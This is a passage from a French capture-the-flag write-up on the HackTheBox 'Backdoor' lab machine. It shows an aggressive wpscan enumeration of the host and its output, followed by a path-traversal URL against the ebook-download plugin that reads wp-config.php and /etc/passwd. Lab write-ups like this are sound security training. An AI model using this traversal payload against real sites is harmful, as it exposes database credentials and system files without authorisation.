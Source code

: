 Pour info, nous aurions aussi pu lancer un `wpscan` agrressif pour découvrir ce même plugin :
```
wpscan --url http://backdoor.htb --plugins-detection aggressive
```

```
[+] Enumerating All Plugins (via Aggressive Methods)                                                                                                                                                       [0/822]
 Checking Known Locations - Time: 00:07:56 <==============================================================================================================================> (97256 / 97256) 100.00% Time: 00:07:56
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://backdoor.htb/wp-content/plugins/akismet/
 | Latest Version: 4.2.2
 | Last Updated: 2022-01-24T16:11:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

Nous voyons donc ce plugin: `ebook-download` qui est [vulnérable](https://www.exploit-db.com/exploits/39575). Nous pouvons par exemple récupérer le fichier `wp-config.php` via cette URL : `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`. 

Malheureusement, cela ne nous aide pas... le mot de passe utilisé par le compte `MySQL` n'est pas le même que celui de `root`, ni même de l'utilisateur qui s'appelle d'ailleurs `user` (d'après le fichier `/etc/passwd` que nous pouvons aussi récupérer via cette LFI).

## Exploitation
